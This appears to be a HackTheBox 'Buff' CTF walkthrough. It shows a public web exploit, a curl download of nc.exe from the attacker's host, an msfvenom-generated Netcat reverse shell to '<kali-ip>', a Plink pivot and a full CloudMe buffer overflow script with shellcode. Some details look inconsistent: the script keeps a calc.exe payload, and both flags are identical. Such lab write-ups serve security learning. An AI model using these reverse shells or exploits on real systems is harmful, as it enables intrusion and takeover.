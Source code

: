 ```yaml
---
title: 'HTB: Buff'
date: 2020-11-21 19:04:00 -0400
categories: [HackTheBox, Write-ups]
tags: [HTB, pivot, overflow]     # TAG names should always be lowercase
---
```


IP: 10.10.10.198

We'll start things off with an NMap scan.
![06cfc558fe03d8b0c3ed3ca3e3649822.png](./../assets/img/06cfc558fe03d8b0c3ed3ca3e3649822.png)

The webserver on port 8080 looks to be running Gym Management System. The standard footer has been changed to hide this, but it's fairly common in CTF boxes.
![c1b4ec2904be4e3ec168d8841d9c5104.png](./../assets/img/c1b4ec2904be4e3ec168d8841d9c5104.png)

Although the footer was changed, it can still be confirmed on the contact page.
![9b3d9de1efcab6ab008f565155f73edd.png](./../assets/img/9b3d9de1efcab6ab008f565155f73edd.png)

We can use a public exploit to get a basic shell from here: https://www.exploit-db.com/exploits/48506

If you're running Kali 2020, you will probably need to fix the exploit in order for it to work since Python2.7 is heavily phased out. This can be done with `2to3-2.7 -w 48506.py`.
![7275456c3113cf7b9e1dcbcea0218d3d.png](./../assets/img/7275456c3113cf7b9e1dcbcea0218d3d.png)

Now we can run the exploit properly with Python3.
![f64f50b891d5a7611026a15244cbf293.png](./../assets/img/f64f50b891d5a7611026a15244cbf293.png)

We can grab the user flag now before we try to get a better shell on the box.
![1e8c67e104e7a1a0c79a921f93aafe15.png](./../assets/img/1e8c67e104e7a1a0c79a921f93aafe15.png)
`7ddf32e17a6ac5ce04a8ecbf782ca509`

CertUtil doesn't want to cooperate, but we do have access to Curl. We'll host a Netcat binary with `python -m SimpleHTTPServer 80` and then run `curl -O <kali-ip>:80/nc.exe` to pull it to the target.
![4a95b684b25ee4d221f0a4bb0f455638.png](./../assets/img/4a95b684b25ee4d221f0a4bb0f455638.png)
![e1ec03a5cab2677f02cae976dc1bf2d2.png](./../assets/img/e1ec03a5cab2677f02cae976dc1bf2d2.png)

Now we can start a listener and then call Netcat.
![f6956c3f6f6adca55ae60ed9c1b2ad8a.png](./../assets/img/f6956c3f6f6adca55ae60ed9c1b2ad8a.png)
![ebed04248fed4e721a46f157b490dbc6.png](./../assets/img/ebed04248fed4e721a46f157b490dbc6.png)

If we take a look at running processes with `tasklist` we see a strange process called CloudMe.
![7843a116bb14da112accdcffccd36db4.png](./../assets/img/7843a116bb14da112accdcffccd36db4.png)

Looking around, we find the exe in Shaun's downloads folder.
![e3abd20723ec52b108ed4dcba88307cf.png](./../assets/img/e3abd20723ec52b108ed4dcba88307cf.png)

A quick google search shows us that this version is vulnerable to a buffer overflow attack. Given the name of the box, this should be our way to privesc.
https://www.exploit-db.com/exploits/48389

The default port for CloudMe is 8888. We can check to see if it's listening on that with `netstat -aof | findstr :8888`.
![15194e417049dd2769842e62bcc79a96.png](./../assets/img/15194e417049dd2769842e62bcc79a96.png)

Unfortunately we can't access this directly if we look back at our Nmap scan. We'll have to find a way to pivot into it using something like Plink.
![e26a278e002293ad825c7dfbe53d1825.png](./../assets/img/e26a278e002293ad825c7dfbe53d1825.png)

We need to run Curl in another instance of the web shell.
![7d184b4ad7770a1bd5612f598f738ed6.png](./../assets/img/7d184b4ad7770a1bd5612f598f738ed6.png)
![4104ddb888b79f62429201098b951c84.png](./../assets/img/4104ddb888b79f62429201098b951c84.png)

Now we can start up the SSH service on our system for the incoming connection we'll make with Plink.
![fb7892c83fd455faad4232846498a3c5.png](./../assets/img/fb7892c83fd455faad4232846498a3c5.png)

Before we make the connection, I strongly suggest you use the `passwd` command to set a temp password, or use a temporary account in case someone manages to hijack your credentials.
![bfb63c6255693c09d4fcfbcbac53891b.png](./../assets/img/bfb63c6255693c09d4fcfbcbac53891b.png)

After some tinkering, we find that trying to call Plink from within the CMD shell we have doesn't work. Restarting the NC shell while passing powershell.exe shows the certificate dialog so we can confirm it. We have also set our SSH service to run on port 443 as well since HTB blocks SSH out on port 22 to keep users safer.
![ef60c279631269273f4b1338b32afce9.png](./../assets/img/ef60c279631269273f4b1338b32afce9.png)

Now we can generate a payload for the CloudMe exploit using MsfVenom.
```
msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe <kali-ip> 4445 -e powershell.exe' -b '\x00\x0A\x0D' -f python -v payload
```
![d50e016d78503e5f469c1fc64f172b6b.png](./../assets/img/d50e016d78503e5f469c1fc64f172b6b.png)

Now we have our finished exploit.
```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload =  b""
payload += b"\xd9\xd0\xd9\x74\x24\xf4\xba\x32\x4a\x21\x90\x58"
payload += b"\x2b\xc9\xb1\x40\x83\xe8\xfc\x31\x50\x14\x03\x50"
payload += b"\x26\xa8\xd4\x6c\xae\xae\x17\x8d\x2e\xcf\x9e\x68"
payload += b"\x1f\xcf\xc5\xf9\x0f\xff\x8e\xac\xa3\x74\xc2\x44"
payload += b"\x30\xf8\xcb\x6b\xf1\xb7\x2d\x45\x02\xeb\x0e\xc4"
payload += b"\x80\xf6\x42\x26\xb9\x38\x97\x27\xfe\x25\x5a\x75"
payload += b"\x57\x21\xc9\x6a\xdc\x7f\xd2\x01\xae\x6e\x52\xf5"
payload += b"\x66\x90\x73\xa8\xfd\xcb\x53\x4a\xd2\x67\xda\x54"
payload += b"\x37\x4d\x94\xef\x83\x39\x27\x26\xda\xc2\x84\x07"
payload += b"\xd3\x30\xd4\x40\xd3\xaa\xa3\xb8\x20\x56\xb4\x7e"
payload += b"\x5b\x8c\x31\x65\xfb\x47\xe1\x41\xfa\x84\x74\x01"
payload += b"\xf0\x61\xf2\x4d\x14\x77\xd7\xe5\x20\xfc\xd6\x29"
payload += b"\xa1\x46\xfd\xed\xea\x1d\x9c\xb4\x56\xf3\xa1\xa7"
payload += b"\x39\xac\x07\xa3\xd7\xb9\x35\xee\xbd\x3c\xcb\x94"
payload += b"\xf3\x3f\xd3\x96\xa3\x57\xe2\x1d\x2c\x2f\xfb\xf7"
payload += b"\x09\xdf\xb1\x5a\x3b\x48\x1c\x0f\x7e\x15\x9f\xe5"
payload += b"\xbc\x20\x1c\x0c\x3c\xd7\x3c\x65\x39\x93\xfa\x95"
payload += b"\x33\x8c\x6e\x9a\xe0\xad\xba\xd9\x3c\x0e\x3d\xbf"
payload += b"\x2d\xde\xcd\x63\xc5\x6a\x4a\xf3\x76\xe0\xce\x6c"
payload += b"\x01\x6b\xb3\x07\x81\x1f\x24\x89\x05\xbc\xd4\x2a"
payload += b"\xeb\x59\x51\xc8\xd3\x90\x91\x3c\x22\xe3\xff\x71"
payload += b"\x70\x2d\x31\x42\x58\x05\x05\x96\xad\x45\x48\xb3"
payload += b"\xed\xf5\xfd\x4c\x88\x87\x72\xdb\x37\x04\x19\x35"
payload += b"\xd2\xac\x84\x49"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```

We'll start up a new Netcat listener on port 4445 and fire off the exploit.
![f46a4c0b9690f0cac479efcd83437111.png](./../assets/img/f46a4c0b9690f0cac479efcd83437111.png)
![1f85e6943af0a92fe0a7a6f19a515609.png](./../assets/img/1f85e6943af0a92fe0a7a6f19a515609.png)

All that's left is to grab the root flag.
![44a5971c51e4bcda3735e3b9b8477165.png](./../assets/img/44a5971c51e4bcda3735e3b9b8477165.png)
`7ddf32e17a6ac5ce04a8ecbf782ca509`


